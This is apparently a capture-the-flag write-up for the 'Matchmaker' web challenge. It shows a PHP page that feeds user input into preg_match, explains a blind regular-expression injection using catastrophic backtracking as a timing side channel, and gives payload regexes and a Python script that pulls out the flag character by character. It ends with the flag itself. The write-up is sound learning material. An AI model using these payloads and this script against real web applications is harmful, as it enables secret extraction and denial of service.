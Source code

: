 ## Matchmaker

> Navigating to the website, we are given a php code as follows:

```php
<?php

include_once('./flag.php');
error_reporting(0);
highlight_file(__FILE__);

$startTime = microtime(true);
if (!empty($_GET['x'])){
  preg_match('/'.$_GET['x'].'/', $FLAG, $matches);
}

$endTime = microtime(true);
$runTime = $endTime - $startTime;

echo "<br /><br />\n";
echo "<strong>Exec Time:</strong> ".$runTime;

?>
```

> In the code, we can see a php [preg_match](https://www.w3schools.com/php/func_regex_preg_match.asp) function call. We can supply a pattern to the `x` parameter in a GET request, which will look for matches with the FLAG variable. Then, the execution time of this matching process will be displayed at the bottom of the page.

> The information given to us suggest that this may involve a [Regular expression Denial of Service attack](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS). After some research, I found an article about [Blind Regex Injection](https://diary.shift-js.info/blind-regular-expression-injection/) that mentions about attacking applications with Timeout-based Mitigation. The given payload is as follows:

```
^(?=some regexp here)((.*)*)*salt$
```

> Here is a breakdown of what each part means:
- `^` - matches the beginning of the string
- `(?=some regex here)` - a positive lookahead that asserts that the string must contain the pattern "some regex here" immediately after the beginning of the string, but does not include it in the match.
- `((.*)*)*` - matches zero or more groups of any character, including newlines `(.)`, and captures them in a capturing group. The `*` quantifier matches the group zero or more times, and the outer `*` quantifier repeats the pattern zero or more times.
- `salt$` - matches the string `salt` at the end of the string. It is just a random string. If an input string does match `((.*)*)*salt$`, we can regenerate another random string.

> In the matching process, the back part of the regex `((.*)*)*salt$` takes a lot of time because of numerous backtracking performed. However, if our positive lookahead `(?=some regex here)` fails, the engine can quickly reject the match without performing a lot of backtracking.

> Since we know that our flag has the format `midnight{...}`, we can craft two regex to show the difference in execution time:

```
Expression 1: ^(?=^midnight)((.*)*)*salt$
Expression 2: ^(?=^midnigha)((.*)*)*salt$
```

> In the above case, expression 1 will take a longer execution time than expression 2 because the regex `^midnight` matches that of our flag format, and so the computationally intensive `((.*)*)*salt$` part is being executed. Whereas for expression 2, since the regex `^midnigha` does not match, the engine rejects the match because of its positive lookahead property `(?=)`.

> Note that we will need to append the payload to the x parameter in a GET request as shown:

```
http://matchmaker-1.play.hfsc.tf:12345/?x=^(?=^midnight{)((.*)*)*salt$
```

> To uncover the flag, we need to loop through every printable character and get the one with the highest execution time. Following which, we can append it to our regex prefix and continue until we reach the end of the flag with the character `}`. Obtaining the execution time can be done using a `re.search` from the response we get from the server. The following is a python script that does what we need:

```python
import requests
import re

url = 'http://matchmaker-1.play.hfsc.tf:12345/'
param_prefix = '^(?=^midnight{'

while True:
    highest_exec_time = 0
    highest_exec_time_char = ''
    for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&()_+-=}":
        end = ")((.*)*)*salt$"
        param_value = f"{param_prefix}{char}{end}"
        full_url = f"{url}?x={param_value}"
        response = requests.get(full_url)
        string = response.text.splitlines()[-1]
        match = re.search(r'Exec Time:</strong> ([\d\.E-]+)<br />', string)
        if match:
            exec_time = float(match.group(1))
            if exec_time > highest_exec_time:
                highest_exec_time = exec_time
                highest_exec_time_char = char
            # print(exec_time)
        print(param_value, response.text.splitlines()[-1])
    print(f"Highest exec_time: {highest_exec_time} for character: {highest_exec_time_char}")
    param_prefix += highest_exec_time_char
    print(param_prefix)
    if highest_exec_time_char == '}':
        break


print(f"Param Prefix: {param_prefix}")
```

> To speed up this process, we should make use of python libraries `asyncio` and `aiohttp` for our HTTP requests so that the tasks will be executed simultaneously. The improved python script can be found in [exploit.py](https://github.com/Rookie441/CTF/blob/main/Categories/Web%20Exploitation/Medium/matchmaker/exploit.py)

> The working exploit took about 40 seconds. [Watch here](https://youtu.be/N2Y6xV3LZ-0)

`midnight{r3gExpErt153_1n_m47Chm4K1ng}`
